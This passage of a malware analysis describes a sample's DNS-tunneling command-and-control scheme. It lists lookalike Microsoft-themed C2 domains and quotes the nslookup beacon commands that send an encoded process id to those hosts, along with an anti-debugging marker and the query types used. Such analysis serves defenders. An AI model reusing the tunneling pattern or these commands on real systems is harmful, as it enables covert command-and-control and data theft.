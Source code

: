 This malware uses a technique called `DNS Tunneling` which leverages the DNS requests to send and receive data (usually DNS requests are not filtered by the firewall which makes this technique very powerful).

```
C2 Domains:
    0ffice365.agency
    0nedrive.agency
    corewindows.agency
    microsoftonline.agency
    onedrive.agency
    sharepoint.agency
    skydrive.agency
    0ffice365.life
    0ffice365.services
    skydrive.services
```

The malware first flushes the DNS cache with the command:

```
ipconfig /flushdns
```

Then it loops through the C2 domains and send a DNS query to each one of them, it has three variants or modes:

```
normal request:       nslookup.exe -q={DNS_quest_type} {id}.{domain_name}
ac mode is enables:   nslookup.exe -timeout=5 -q={DNS_quest_type} {id}.ac.{domain_name}
debugger is attached: nslookup.exe -timeout=5 -q={DNS_quest_type} 676f6f646c75636b.ac.{domain_name}
```

Interestingly enough, if we decode `676f6f646c75636b` (the value added if a debugger is attached), we get the value `goodluck`, the malware author is trying to be funny with the analyst :)

Here is the possible DNS query types used by the malware:

```
DNS query types:
    MX
    TXT
    A
    AAAA
```

The request `id` is generated by calling `GetCurrentProcess()` then transforming the process id to a string with these replacements:

```
0 --> h
1 --> i
2 --> j
3 --> k
4 --> l
5 --> m
6 --> n
7 --> o
8 --> p
9 --> q
```
